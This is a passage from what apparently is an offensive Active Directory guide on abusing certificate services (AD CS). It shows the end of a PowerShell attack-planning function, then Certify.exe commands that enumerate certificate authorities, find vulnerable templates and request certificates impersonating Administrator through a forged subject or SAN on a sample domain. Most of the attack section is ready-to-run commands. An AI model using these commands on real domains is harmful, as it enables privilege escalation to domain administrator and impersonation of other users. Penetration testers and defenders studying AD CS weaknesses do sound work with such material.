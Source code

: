 ```powershell
        foreach ($tool in $attackPlan.ToolRequirements) {
            Write-Host "  - $tool"
        }
        
        Write-Host "`nExecution Steps:" -ForegroundColor Cyan
        foreach ($step in $attackPlan.ExecutionSteps) {
            Write-Host "  $step"
        }
        
        return $attackPlan
        
    }
    catch {
        Write-Warning "Certificate abuse attack planning failed: $($_.Exception.Message)"
        return $null
    }
}

# Plan certificate abuse attacks
$attackPlan = Plan-CertificateAbuseAttacks -ADCSResults $adcsResults
```

**Tool Explanation:**
- **Attack Planning**: Plan certificate abuse attacks
- **Escalation Paths**: Map privilege escalation paths
- **Tool Requirements**: Identify required tools
- **Execution Steps**: Generate execution steps
- **Advantages**: Attack planning, tool identification, execution guidance
- **Disadvantages**: Complex planning, requires attack knowledge

## 🚀 Practical AD CS Attacks

### **Certificate Template Abuse Commands**

#### **1. Certify - AD CS Enumeration and Abuse**
```powershell
# Basic AD CS enumeration
.\Certify.exe cas

# List certificate authorities
.\Certify.exe cas /enrolleeSuppliesSubject

# Find vulnerable certificate templates
.\Certify.exe find /enrolleeSuppliesSubject

# Request certificate with custom subject
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /subject:CN=Administrator

# Request certificate with custom SAN
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /subject:CN=User /altname:Administrator

# Export certificate and private key
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /subject:CN=User /export
```
